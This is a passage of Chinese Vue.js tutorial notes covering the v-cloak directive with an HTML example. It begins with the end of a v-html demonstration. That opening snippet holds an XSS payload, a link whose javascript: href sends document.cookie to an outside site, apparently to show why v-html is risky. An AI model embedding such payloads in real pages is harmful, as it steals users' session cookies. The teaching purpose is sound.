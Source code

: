 ```html
      str: '<h3>124</h3>',
      str2: '<a href=javascript:location.href="http://www.baidu.com?" + document.cookie>快来！</a>'
    }
  })
</script>
```

#### 041_v-cloak指令

v-cloak指令（没有值）： 	

1. 本质是一个特殊属性，Vue实例创建完毕并接管容器后，会删掉v-cloak属性。 
2. 使用css配合v-cloak可以解决网速慢时页面展示出模板{{xxx}}的问题。

script引入的是我自制的server，作用是5s后script标签加载成功，注意script标签的的引入位置，是先执行html模板，5s后渲染页面{{name}}变为尚硅谷，想让{{name}}在5s内隐藏，不显示在页面中，script标签加载成功后直接出现尚硅谷，用v-cloak。

```html
<!DOCTYPE html>
<html>
  <head>
    <meta charset="UTF-8" />
    <title>v-cloak指令</title>
    <style>
      [v-cloak] {
        display: none;
      }
    </style>
    <!-- 引入Vue -->
  </head>

  <body>
    <div id="root">
      <h2 v-cloak>{{name}}</h2>
    </div>
    <script type="text/javascript" src="http://localhost:8080/resource/5s/vue.js"></script>
  </body>

  <script type="text/javascript">
    console.log(1)
    Vue.config.productionTip = false //阻止 vue 在启动时生成生产提示。
    new Vue({
      el: '#root',
      data: {
        name: '尚硅谷'
      }
    })
  </script>
</html>
```

#### 042_v-once指令
